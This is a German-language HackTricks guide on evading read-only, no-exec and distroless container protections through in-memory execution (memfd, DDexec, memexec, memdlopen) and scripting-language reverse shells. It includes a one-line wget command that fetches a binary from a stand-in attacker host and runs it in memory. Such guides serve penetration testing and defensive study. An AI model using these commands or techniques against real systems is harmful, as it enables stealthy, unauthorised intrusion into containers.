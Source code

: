 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn du an einer **Hacking-Karriere** interessiert bist und das Unhackbare hacken möchtest - **wir stellen ein!** (_fließend Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In den folgenden Videos findest du die auf dieser Seite erwähnten Techniken ausführlicher erklärt:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec Szenario

Es ist immer häufiger anzutreffen, dass Linux-Maschinen mit **schreibgeschütztem (ro) Dateisystemschutz** gemountet werden, insbesondere in Containern. Das liegt daran, dass es so einfach ist, einen Container mit ro Dateisystem zu starten, wie **`readOnlyRootFilesystem: true`** im `securitycontext` festzulegen:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Allerdings, selbst wenn das Dateisystem als ro gemountet ist, bleibt **`/dev/shm`** beschreibbar, sodass es falsch ist zu sagen, dass wir nichts auf die Festplatte schreiben können. Diese Ordner werden jedoch **mit no-exec-Schutz** gemountet, sodass du eine hier heruntergeladene Binärdatei **nicht ausführen kannst**.

{% hint style="warning" %}
Aus der Perspektive eines Red Teams macht dies das **Herunterladen und Ausführen** von Binärdateien, die sich nicht bereits im System befinden (wie Backdoors oder Aufzähler wie `kubectl`), **kompliziert**.
{% endhint %}

## Einfachster Bypass: Skripte

Beachte, dass ich von Binärdateien gesprochen habe, du kannst **jedes Skript ausführen**, solange der Interpreter auf der Maschine vorhanden ist, wie ein **Shell-Skript**, wenn `sh` vorhanden ist, oder ein **Python-Skript**, wenn `Python` installiert ist.

Allerdings reicht das nicht aus, um deine Binär-Backdoor oder andere Binärwerkzeuge auszuführen, die du möglicherweise benötigst.

## Speicher-Bypasses

Wenn du eine Binärdatei ausführen möchtest, aber das Dateisystem dies nicht zulässt, ist der beste Weg, dies zu tun, indem du sie **aus dem Speicher ausführst**, da die **Schutzmaßnahmen dort nicht gelten**.

### FD + exec syscall Bypass

Wenn du einige leistungsstarke Skript-Engines auf der Maschine hast, wie **Python**, **Perl** oder **Ruby**, könntest du die Binärdatei herunterladen, um sie aus dem Speicher auszuführen, sie in einem Speicher-Dateideskriptor (`create_memfd` syscall) speichern, der nicht durch diese Schutzmaßnahmen geschützt ist, und dann einen **`exec` syscall** aufrufen, der den **fd als die auszuführende Datei angibt**.

Dafür kannst du leicht das Projekt [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) verwenden. Du kannst ihm eine Binärdatei übergeben, und es wird ein Skript in der angegebenen Sprache generiert, mit der **Binärdatei komprimiert und b64 codiert** und den Anweisungen, um sie in einem **fd** zu **dekodieren und zu dekomprimieren**, das durch den Aufruf des `create_memfd` syscalls erstellt wird, und einem Aufruf des **exec** syscalls, um sie auszuführen.

{% hint style="warning" %}
Dies funktioniert nicht in anderen Skriptsprache wie PHP oder Node, da sie keine **Standardmethode haben, um rohe Syscalls** aus einem Skript aufzurufen, sodass es nicht möglich ist, `create_memfd` aufzurufen, um den **Speicher fd** zu erstellen, um die Binärdatei zu speichern.

Darüber hinaus wird das Erstellen eines **regulären fd** mit einer Datei in `/dev/shm` nicht funktionieren, da du sie nicht ausführen kannst, weil der **no-exec-Schutz** gilt.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ist eine Technik, die es dir ermöglicht, den **Speicher deines eigenen Prozesses** zu **modifizieren**, indem du dessen **`/proc/self/mem`** überschreibst.

Daher kannst du, indem du **den Assembly-Code kontrollierst**, der vom Prozess ausgeführt wird, einen **Shellcode** schreiben und den Prozess "mutieren", um **beliebigen Code auszuführen**.

{% hint style="success" %}
**DDexec / EverythingExec** ermöglicht es dir, deinen eigenen **Shellcode** oder **jede Binärdatei** aus dem **Speicher** zu laden und **auszuführen**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Für weitere Informationen zu dieser Technik, siehe das Github oder:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) ist der natürliche nächste Schritt von DDexec. Es ist ein **DDexec Shellcode, der demonisiert wurde**, sodass Sie jedes Mal, wenn Sie **eine andere Binärdatei ausführen** möchten, DDexec nicht neu starten müssen. Sie können einfach den Memexec-Shellcode über die DDexec-Technik ausführen und dann **mit diesem Daemon kommunizieren, um neue Binärdateien zu laden und auszuführen**.

Ein Beispiel, wie man **memexec verwendet, um Binärdateien von einem PHP-Reverse-Shell auszuführen**, finden Sie unter [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Mit einem ähnlichen Zweck wie DDexec ermöglicht die Technik [**memdlopen**](https://github.com/arget13/memdlopen) eine **einfachere Möglichkeit, Binärdateien** im Speicher zu laden, um sie später auszuführen. Es könnte sogar ermöglichen, Binärdateien mit Abhängigkeiten zu laden.

## Distroless Bypass

### Was ist distroless

Distroless-Container enthalten nur die **minimalen Komponenten, die notwendig sind, um eine bestimmte Anwendung oder Dienst auszuführen**, wie Bibliotheken und Laufzeitabhängigkeiten, schließen jedoch größere Komponenten wie einen Paketmanager, eine Shell oder Systemdienstprogramme aus.

Das Ziel von Distroless-Containern ist es, die **Angriffsfläche von Containern zu reduzieren, indem unnötige Komponenten eliminiert** und die Anzahl der ausnutzbaren Schwachstellen minimiert wird.

### Reverse Shell

In einem Distroless-Container finden Sie möglicherweise **nicht einmal `sh` oder `bash`**, um eine reguläre Shell zu erhalten. Sie werden auch keine Binärdateien wie `ls`, `whoami`, `id`... finden, alles, was Sie normalerweise in einem System ausführen.

{% hint style="warning" %}
Daher werden Sie **nicht** in der Lage sein, eine **Reverse Shell** zu erhalten oder das System wie gewohnt zu **enumerieren**.
{% endhint %}

Wenn der kompromittierte Container jedoch beispielsweise eine Flask-Webanwendung ausführt, ist Python installiert, und daher können Sie eine **Python-Reverse-Shell** erhalten. Wenn es Node ausführt, können Sie eine Node-Reverse-Shell erhalten, und dasselbe gilt für die meisten **Skriptsprache**.

{% hint style="success" %}
Mit der Skriptsprache könnten Sie das **System enumerieren**, indem Sie die Sprachfähigkeiten nutzen.
{% endhint %}

Wenn es **keine `read-only/no-exec`**-Schutzmaßnahmen gibt, könnten Sie Ihre Reverse Shell missbrauchen, um **Ihre Binärdateien im Dateisystem zu schreiben** und sie **auszuführen**.

{% hint style="success" %}
In dieser Art von Containern werden diese Schutzmaßnahmen jedoch normalerweise existieren, aber Sie könnten die **vorherigen Techniken zur Ausführung im Speicher verwenden, um sie zu umgehen**.
{% endhint %}

Sie finden **Beispiele**, wie man **einige RCE-Schwachstellen ausnutzt**, um Skriptsprache **Reverse Shells** zu erhalten und Binärdateien aus dem Speicher auszuführen, unter [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn Sie an einer **Hacking-Karriere** interessiert sind und das Unhackbare hacken möchten - **wir stellen ein!** (_fließend Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
